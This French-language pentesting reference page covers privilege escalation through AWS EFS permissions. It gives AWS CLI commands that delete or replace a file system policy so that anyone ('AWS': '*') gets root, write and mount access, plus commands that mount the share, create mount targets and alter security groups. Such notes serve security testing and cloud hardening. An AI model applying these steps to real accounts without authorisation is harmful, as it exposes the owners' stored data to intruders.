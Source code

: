 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Plus **d'infos sur EFS** dans :

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

N'oubliez pas que pour monter un EFS, vous devez être dans un sous-réseau où l'EFS est exposé et y avoir accès (groupes de sécurité). Si cela se produit, par défaut, vous pourrez toujours le monter, cependant, s'il est protégé par des politiques IAM, vous devez avoir les autorisations supplémentaires mentionnées ici pour y accéder.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Avec l'une de ces autorisations, un attaquant peut **changer la politique du système de fichiers** pour **vous donner accès** à celui-ci, ou simplement **le supprimer** afin que **l'accès par défaut** soit accordé.

Pour supprimer la politique :
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Pour le changer :
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Avec cette permission, un attaquant pourra **monter l'EFS**. Si la permission d'écriture n'est pas accordée par défaut à tous ceux qui peuvent monter l'EFS, il n'aura que **l'accès en lecture**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Les autorisations supplémentaires `elasticfilesystem:ClientRootAccess` et `elasticfilesystem:ClientWrite` peuvent être utilisées pour **écrire** à l'intérieur du système de fichiers après qu'il ait été monté et pour **accéder** à ce système de fichiers **en tant que root**.

**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:CreateMountTarget`

Si un attaquant se trouve dans un **sous-réseau** où **aucun point de montage** de l'EFS n'existe. Il pourrait simplement **en créer un dans son sous-réseau** avec ce privilège :
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Dans un scénario où un attaquant découvre que l'EFS a un point de montage dans son sous-réseau mais **aucun groupe de sécurité n'autorise le trafic**, il pourrait simplement **changer cela en modifiant les groupes de sécurité sélectionnés** :
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

{{#include ../../../banners/hacktricks-training.md}}
